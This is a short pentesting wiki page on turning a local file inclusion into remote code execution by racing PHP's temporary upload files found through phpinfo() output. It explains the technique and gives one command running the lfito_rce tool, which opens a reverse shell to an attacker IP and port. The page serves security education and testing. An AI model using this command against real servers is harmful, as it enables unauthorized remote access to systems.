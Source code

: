 # PHPInfo

## Theory

When `file_uploads=on` is set in the PHP configuration file, it is possible to upload a file by POSTing it on any PHP file ([RFC1867](https://www.ietf.org/rfc/rfc1867.txt)). This file is put to a temporary location on the server and deleted after the HTTP request is fully processed.

The aim of the attack is to POST a PHP reverse shell on the server and delay the processing of the request by adding very long headers to it. This gives enough time to find out the temporary location of the reverse shell using the output of the `phpinfo()` function and including it via the LFI before it gets removed. See the [insomnia researche paper](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) for more details

{% hint style="info" %}
The prerequisites for this method are :&#x20;

* having `file_uploads=on` set in the PHP configuration file
* having access to the output of the `phpinfo()` function
{% endhint %}

## Practice

We can use the [lfito\_rce](https://github.com/roughiz/lfito\_rce) to exploit it

```bash
#There is no requirements.txt, the dependencies have to be installed manually
python lfito_rce.py -l "http://$URL/?page=" --lhost=$attackerIP --lport=$attackerPORT -i "http://$URL/phpinfo.php"
```

## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/phpinfo" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo" %}
